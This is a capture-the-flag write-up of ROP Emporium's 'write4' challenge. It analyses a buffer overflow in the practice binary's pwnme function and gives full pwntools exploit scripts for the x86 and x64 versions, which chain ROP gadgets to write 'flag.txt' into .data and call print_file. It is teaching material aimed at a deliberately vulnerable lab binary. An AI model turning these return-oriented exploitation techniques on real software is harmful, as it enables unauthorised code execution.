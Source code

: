# write


* Architecture: x86 (32-bit)


Link : [write4](https://ropemporium.com/challenge/write4.html)

Binary : [write4 x86](https://github.com/w31rdr4v3n/Binary-Exploitation/raw/main/ROP/data/ropemporium/write432.zip)



## Challenge Overview

The `write432` challenge is part of ROP Emporium's x86 Return-Oriented Programming (ROP) practice exercises. The objective is to use ROP techniques to write the string `flag.txt` into the `.data` section of the binary and call the `print_file` function to read and display the file's contents.


## Challenge Details

* Binary Name: `write432`

* Architecture: x86 (32-bit)

* Vulnerability: Buffer overflow in the `pwnme` function, allowing control of the program's execution flow.

* Goal: Exploit the buffer overflow to:

* Write `flag.txt` into the `.data` section of memory.

* Call `print_file` with the address of the `.data` section as its argument.



## Vulnerability Analysis


### The `main` Function (Program Code)

The `main` function in the `write432` binary serves as the entry point:

![main](data/main.png)

It simply calls the vulnerable pwnme function.


### The `pwnme` Function (From `libwrite432.so`)

The `pwnme` function is the vulnerable entry point:

![pwnme](data/pwnme.png)


* Buffer Overflow: The function reads up to 512 bytes into a 36-byte buffer (`s`), allowing for overwriting of the saved return address.


### The `print_file` Function (From libwrite432.so)

The `print_file` function reads and prints the contents of a specified file:


![print_file.png](data/print_file.png)

* Purpose: Opens the file specified by the `filename` argument, reads its content into a buffer, and prints it.

* Address in Binary: 0x080483d0

![add_print_file](data/add_print_file.png)


```asm
> ROPgadget --binary write432

0x08048543 : mov dword ptr [edi], ebp ; ret
0x080485aa : pop edi ; pop ebp ; ret
```

![section](data/section.png)


### Key Gadgets (From Program Code)

ROP gadgets required to exploit the vulnerability:

1. `pop edi; pop ebp; ret` (Address: `0x080485aa`):

	* Loads values into `edi` (target memory address) and `ebp` (data to write).

2. `mov dword ptr [edi], ebp; ret` (Address: `0x08048543`):

	* Writes the value in `ebp` to the memory address pointed to by `edi`.


### Writable Memory Section

* `.data` Section: Address starts at `0x0804a018` and is writable, making it suitable for storing `flag.txt`.


## Exploitation Steps


### Step 1: Write `flag.txt` to the `.data` Section

Using ROP gadgets, the string `flag.txt` is written in two parts:

1. Write flag to `0x0804a018`.

2. Write .txt to `0x0804a018+4`.


### Step 2: Call `print_file`

After constructing the string in memory, the `print_file` function is called with the address of the `.data` section as its argument.

## Exploit Code

```py
from pwn import *

sh = process("./write432")

print(sh.recv().decode())

payload = b"A"*44

# Write 'flag' to .data
payload += p32(0x080485aa) # pop edi ; pop ebp ; ret
payload += p32(0x0804a018) # .data
payload += b"flag"
payload += p32(0x08048543) # mov dword ptr [edi], ebp ; ret

# Write '.txt' to .data + 4
payload += p32(0x080485aa) # pop edi ; pop ebp ; ret
payload += p32(0x0804a018 + 4) # .data
payload += b".txt"
payload += p32(0x08048543) # mov dword ptr [edi], ebp ; ret

# Call print_file("flag.txt")
payload += p32(0x80483d0) # print_file
payload += b"A"*4		  # Padding
payload += p32(0x0804a018) # .data

sh.sendline(payload)
print(sh.recv().decode())
```



## Explanation of the ROP Chain

### Writing to Memory

The ROP chain uses gadgets to write arbitrary values to memory:

1. `pop edi; pop ebp; ret`: Loads the destination address (`edi`) and the value to write (`ebp`).

2. `mov dword ptr [edi], ebp; ret`: Writes the value in `ebp` to the memory location pointed to by `edi`.

By chaining these gadgets, `flag` and `.txt` are written to consecutive memory locations in the `.data` section.


### Calling `print_file`

Finally, the `print_file` function is called with the address of `flag.txt` in the `.data` section. Padding ensures proper alignment of the stack.


## Exploit Output

Running the exploit produces the following output:

![exploit](data/exploit.png)


This challenge demonstrates the fundamentals of ROP exploitation on x86 binaries and highlights the importance of secure memory management.



* Architecture: x64 (64-bit)


The `write4` challenge involves exploiting a buffer overflow to write the string `flag.txt` into the writable `.data` section and calling the `print_file` function to read and print its contents.

Key Steps:

* Writing `flag.txt`: Use the `pop r14; pop r15; ret` and `mov qword ptr [r14], r15; ret` gadgets to write `flag.txt` into the `.data` section at `0x601028`.
* Calling `print_file`: Use the `pop rdi; ret` gadget to set the first argument (`rdi`) to the `.data` section address and call the `print_file` function.


```py
from pwn import *

sh = process("./write4")

print(sh.recv().decode())

payload = b"A"*(40)

payload += p64(0x0000000000400690) # pop r14 ; pop r15 ; ret
payload += p64(0x0000000000601028) # .data
payload += b"flag.txt"
payload += p64(0x0000000000400628) # mov qword ptr [r14], r15 ; ret

# Call print_file

payload += p64(0x0000000000400693) # pop rdi ; ret
payload += p64(0x0000000000601028) # .data
payload += p64(0x00400510) # print_file

sh.sendline(payload)
sh.interactive()
```
